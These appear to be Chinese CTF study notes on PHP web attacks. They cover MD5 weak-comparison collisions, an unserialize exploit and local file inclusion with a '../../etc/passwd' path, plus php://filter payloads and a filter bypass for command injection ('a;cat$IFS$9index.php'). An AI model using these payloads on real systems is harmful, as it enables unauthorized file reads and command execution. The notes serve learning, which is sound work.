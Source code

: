 # PHP

## Basic

### POST and GET

* GET参数直接附加在url上，用`&`隔开
* POST参数，HTTP头部添加`Content-Type: application/x-www-form-urlencoded`，报文主体空一行写body，同样用`&`隔开



## 比较绕过

PHP `==`为弱比较，`===`为强比较。比较绕过：https://blog.csdn.net/qq_47804678/article/details/128814377

Refer: https://blog.csdn.net/weixin_44511709/article/details/102912004

* PHP中，`==`弱类型判断
* **当md5结果为`0exxxx`，则php当作科学计数法，永远为0**







### Example 1

Example: BUU CODE REVIEW 1

```php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/10/6
 * Time: 8:04 PM
 */

highlight_file(__FILE__);

class BUU {
   public $correct = "";
   public $input = "";

   public function __destruct() {
       try {
           $this->correct = base64_encode(uniqid());
           if($this->correct === $this->input) {
               echo file_get_contents("/flag");
           }
       } catch (Exception $e) {
       }
   }
}

if($_GET['pleaseget'] === '1') {
    if($_POST['pleasepost'] === '2') {
        if(md5($_POST['md51']) == md5($_POST['md52']) && $_POST['md51'] != $_POST['md52']) {
            unserialize($_POST['obj']);
        }
    }
}
```

1. 使用弱相等碰撞
   ```
   pleasepost=2&md51=s1885207154a&md52=s1836677006a&obj=1
   ```

2. 反序列化漏洞

   * 强比较，需要将`input`指向`correct`，创造完全相等
     ```php
     $obj = new BUU;
     $obj->input = &obj->correct;
     echo serialize($obj);
     ```

   * 使用 PHP playground 运行，输出序列化结果
     ```
     O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}
     ```

     

## LFI

LFI漏洞通常出现在使用文件包含函数的应用程序中，这些函数根据用户提供的参数来包含文件。例如，在PHP中，`include()` 或 `require()` 函数经常被用来包含其他文件。如果用户输入没有正确过滤，攻击者可以操纵文件路径，使应用程序包含服务器上的任意文件。

### LFI的原理

当应用程序使用如下的代码时，就可能存在LFI漏洞：

```
<?php
$file =$_GET['file'];
include($file);
?>
```

如果攻击者可以控制`$file`的值，他们就可能包含服务器上的任何文件，例如：

```
http://example.com/index.php?file=../../etc/passwd
```

### PHP 伪协议

https://blog.csdn.net/yao_xin_de_yuan/article/details/108326427

* `php://input` 用于读取post数据流

  ```
  条件：
  allow_url_include=On
  allow_url_fopen-Off/On
  
  POC:
  file =php://input
  POST:phpinfo();
  ```

* **php://filter** 是一种元封装器， 设计用于数据流打开时的[筛选过滤](http://php.net/manual/zh/filters.php)应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 [readfile()](http://php.net/manual/zh/function.readfile.php)、 [file()](http://php.net/manual/zh/function.file.php) 和 [file_get_contents()](http://php.net/manual/zh/function.file-get-contents.php)， 

  ```
  条件：
  allow_url_fopen=Off/On
  allow_url_include=Off/On
  
  
  POC:
  ?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
  ```

* ...



### example

#### [ACTF2020 新生赛]Include

使用PHP伪协议泄露源码

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

#### Ping Ping Ping

命令注入，**需要绕过**

命令注入：https://blog.csdn.net/Manuffer/article/details/120672448

* `&`: 替代`|`
* ` `: 替代`$IFS$9`
* `"`
* `flag`: **拼接后还会检查，无法用变量绕过**
* `bash`
* `<`

获得源码：`a;cat$IFS$9index.php`

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

代码中的正则表达式过滤了以下元素：

1. `& / ? * < > ' " \ ( ) [ ] { }`
16. 控制字符（ASCII码从0到31）：这里用`[\x{00}-\x{1f}]`表示，它匹配了从十六进制的00到1F的所有字符，这些通常是不可见的控制字符。

**绕过flag**: flag检查为顺序，逆向即可绕过 `a;a=ag;b=fl;cat$IFS$9$b$a.php`
